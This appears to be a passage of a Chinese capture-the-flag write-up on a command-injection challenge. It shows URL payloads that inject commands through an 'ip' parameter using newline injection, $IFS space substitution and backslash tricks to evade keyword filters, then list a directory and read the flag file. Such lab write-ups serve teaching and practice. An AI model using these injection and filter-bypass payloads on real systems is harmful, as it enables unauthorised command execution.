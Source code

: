 查看根目录，没有有用信息，flag应该存在**flag\_is\_here**目录下

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209171243444.png)

执行以下命令

    ?ip=127.0.0.1%0acd$IFS$9f\lag_is_here%0als         //flag被过滤，需要绕过
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209171531827.png)

查看该flag

    ?ip=127.0.0.1%0acd$IFS$9f\lag_is_here%0anl$IFS$9f\lag_172132798218075.php  //绕过cat
    

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209171640085.png)